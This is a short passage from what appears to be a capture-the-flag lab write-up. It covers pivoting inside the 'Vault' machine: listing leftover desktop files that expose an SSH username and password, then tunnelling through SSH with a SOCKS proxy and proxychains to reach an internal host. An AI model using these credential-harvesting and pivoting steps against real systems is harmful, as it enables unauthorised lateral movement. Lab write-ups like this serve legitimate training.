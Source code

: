 ```
udp6       0      0 :::5353                 :::*                                -               
udp6       0      0 :::48208                :::*                                -   
```

Note that local IP adress `192.168.122.1:53` is on another network. 

> Since nmap was disabled for the `www-data` user. I try to run `socat` and `ncat` in order to be able to do port forwarding, but they wasn't installed.

Thus, you had to look for something else, something like some broken files left on the desktop that would aloud you to pivote trough ssh! `#EPIC_FAIL`

```bash
cat key
itscominghome

cat /home/dave/Desktop/ssh
dave
Dav3therav3123

cat Servers 
DNS + Configurator - 192.168.122.4
Firewall - 192.168.122.5
The Vault - x
```


```
ssh -fNtD 9050 dave@10.10.10.109 [-L 127.0.0.1:8888:192.168.122.4:80]
proxychains firefox 192.168.122.4
```

<img src="/assets/images/vault_vpn.jpg" style="width:70%">
